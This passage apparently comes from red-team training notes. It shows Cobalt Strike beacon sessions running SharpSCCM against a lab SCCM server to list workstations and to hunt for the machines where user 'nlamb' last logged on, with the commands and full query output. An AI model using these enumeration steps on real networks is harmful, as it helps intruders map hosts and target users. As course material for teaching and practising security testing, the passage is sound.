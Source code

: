 ```powershell
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01

[+] received output:
[+] Executing WQL query: SELECT ResourceId,Name,FullDomainName,IPAddresses,LastLogonUserName,OperatingSystemNameandVersion FROM SMS_R_System WHERE Name LIKE '%WKSTN%' 

[+] received output:
-----------------------------------
SMS_R_System
-----------------------------------

[+] received output:
FullDomainName: DEV.CYBERBOTIC.IO
IPAddresses: 10.10.123.101
LastLogonUserName: nlamb
Name: WKSTN-1
OperatingSystemNameandVersion: Microsoft Windows NT Workstation 10.0
-----------------------------------

[+] received output:
FullDomainName: DEV.CYBERBOTIC.IO
IPAddresses: 10.10.123.102
LastLogonUserName: 
Name: WKSTN-2
OperatingSystemNameandVersion: Microsoft Windows NT Workstation 10.0
-----------------------------------
[+] Completed execution in 00:00:01.9526590
```
You can also use SCCM as a form of user hunting, since it records the last user to login to each managed computer.  The `-u` parameter will only return devices where the given user was the last to login.
```powershell
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
[+] host called home, sent: 1233284 bytes
[+] received output:


[+] received output:
[+] Querying the local WMI repository for the current management point and site code

[+] received output:
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01

[+] received output:
[+] Executing WQL query: SELECT ResourceId,IPAddresses,IPSubnets,Name FROM SMS_R_System WHERE LastLogonUserName='nlamb' 

[+] received output:
-----------------------------------
SMS_R_System
-----------------------------------

[+] received output:
IPAddresses: 10.10.123.101
IPSubnets: 10.10.122.0
Name: WKSTN-1
-----------------------------------
```